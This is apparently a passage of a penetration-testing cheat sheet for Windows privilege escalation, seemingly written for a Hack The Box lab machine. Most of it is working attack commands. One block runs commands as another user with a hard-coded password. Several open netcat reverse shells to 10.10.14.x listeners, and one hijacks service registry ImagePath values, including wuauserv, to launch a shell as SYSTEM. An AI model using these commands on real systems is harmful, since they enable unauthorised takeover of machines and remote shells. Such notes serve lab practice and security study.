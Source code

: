 ```
ps > $user = "CONTROL\hector"
ps > $pass = "l33th4x0rhector"
ps > $secstr = New-Object -TypeName System.Security.SecureString
ps > $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
ps > $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
ps > Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
ps > Invoke-Command -ScriptBlock {\windows\temp\nc.exe -e cmd 10.10.14.13 5555 } -computer localhost
```
### Abusing Windows ACLs
```
Enumerate if some user has full control:
get-acl HKLM:\SYSTEM\CurrentControlSet\Services | format-list
```
```
List all acl services:
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List *
```
```
Loop through to find services run as localsystem:

foreach ($service in $services) { 
  $sddl = (cmd /c sc sdshow $service)[1]; 
  $reg = gp -path hklm:\system\currentcontrolset\services\$service; 
  if ($sddl -match "RP[A-Z]*?;;;AU" -and $reg.ObjectName -eq "LocalSystem") { 
    write-host $service
  }
}
```
```
Automatically gets the old value for the service binary. Then it sets that path to nc.exe connecting back to me. It then starts the service, and the puts the original bin path back:

reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
copy all the services name onto new file, remove "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\"
Get-Content "C:\inetpub\wwwroot\uploads\ss.txt" | ForEach-Object {Get-Service $_} 2> $null
Get-Content "C:\inetpub\wwwroot\uploads\ss.txt" | ForEach-Object {reg.exe add "HKLM\System\CurrentControlSet\services\$_" /t REG_EXPAND_SZ /v ImagePath /d "cmd /c C:\inetpub\wwwroot\uploads\nc.exe -e powershell 10.10.14.30 1233" /f} 2> $null
Get-Content "C:\inetpub\wwwroot\uploads\sa.txt" | ForEach-Object {start-service $_} 2> $null
```
```
Mannually change registry service path:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "c:\inetpub\wwwroot\nc64.exe 10.10.14.xx 8887 -e cmd.exe " /f
```
```
Powershell to list windows registry service runner:

(gp -path hklm:\system\currentcontrolset\services\DoSvc).ObjectName
```
### Check $RECYCLE.BIN
```
cd C:\$RECYCLE.BIN
dir /AH (display hidden files)
```
### Basic Process Injection
basic.cpp
```
#include <iostream>
#include <windows.h>
```